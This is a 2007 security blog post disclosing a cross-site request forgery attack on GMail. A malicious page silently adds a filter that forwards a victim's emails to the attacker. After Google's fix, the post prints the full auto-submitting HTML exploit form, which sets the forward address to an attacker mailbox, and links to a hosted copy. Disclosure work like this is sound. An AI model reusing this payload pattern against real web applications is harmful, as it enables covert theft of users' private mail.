 ```yaml
---
title: Google GMail E-mail Hijack Technique
author: petko-d-petkov
date: Tue, 25 Sep 2007 18:50:33 GMT
template: this/views/post.jade
---
```


In this post I am going to show you how someone can remotely install a simple, persistent filter within a GMail account and download all previous as well as snoop onto all future email conversations.

The following sequence of screenshots describes how the attack works.

<div class="screen">[![GGEHT Seq1](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq1-248x150.jpg "GGEHT Seq1")](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq1.jpg) [![GGEHT Seq2](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq2-248x150.jpg "GGEHT Seq2")](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq2.jpg) [![GGEHT Seq3](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq3-248x150.jpg "GGEHT Seq3")](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq3.jpg)</div>

The victim visits a malicious page while being logged into GMail. Upon that, the page performs a `multipart/form-data` `POST` to one of the GMail alternative interfaces and injects a filter into the victim's filter list. In the example above, the attacker writes a filter, which simply looks for emails with attachments and forward them to an email of their choice. This filter will automatically transfer all emails matching the rule. Keep in mind that future emails will be forwarded as well. The attack will remain **present** for as long as the victim has the filter within their filter list, even if the initial vulnerability, which was the cause of the injection, is fixed by Google.

The technique used in this example is known as Cross-site request forgery, or simply CSRF. I am not planning to go into details how it works. Just look it up on this blog or with your favourite search engine.

I am not planning to release the details of this vulnerability for now. The exploit was verified by [Ryan Naraine](http://blogs.zdnet.com/security/) and several close friends. It does work and it is nasty if you ask me.

**UPDATE 2007/09/28**: I promised to release the POC as soon as Google fixes the vulnerability. Well they did. So, here are the details:

    <form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    	<input type="hidden" name="cf2_emc" value="true"/> 
    	<input type="hidden" name="cf2_email" value="evilinbox@mailinator.com"/> 
    	<input type="hidden" name="cf1_from" value=""/> 
    	<input type="hidden" name="cf1_to" value=""/> 
    	<input type="hidden" name="cf1_subj" value=""/> 
    	<input type="hidden" name="cf1_has" value=""/> 
    	<input type="hidden" name="cf1_hasnot" value=""/> 
    	<input type="hidden" name="cf1_attach" value="true"/> 
    	<input type="hidden" name="tfi" value=""/> 
    	<input type="hidden" name="s" value="z"/> 
    	<input type="hidden" name="irf" value="on"/> 
    	<input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
    </form> 
    <script> 
    	document.forms[0].submit();
    </script>

_The actual exploit can be launched from [here](http://www.gnucitizen.org/static/blog/2007/09/ggeht-exploit.htm). It makes use of a CSRF redirection utility to simplify the process._
